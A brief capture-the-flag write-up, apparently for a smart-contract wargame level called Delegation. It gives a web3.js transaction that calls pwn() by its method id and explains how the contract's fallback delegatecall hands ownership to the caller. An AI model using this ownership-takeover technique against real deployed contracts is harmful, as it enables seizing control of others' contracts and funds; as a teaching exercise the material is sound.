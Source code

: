 ```javascript
web3.eth.sendTransaction({from: player, to: contract.address, data: "0xdd365b8b"})
```

0xdd365b8b is the method id of pwn()
Delegation contract do not have function pwn(), fall to fallback function
and it call the pwn() function at Delegate function which update msg.sender to owner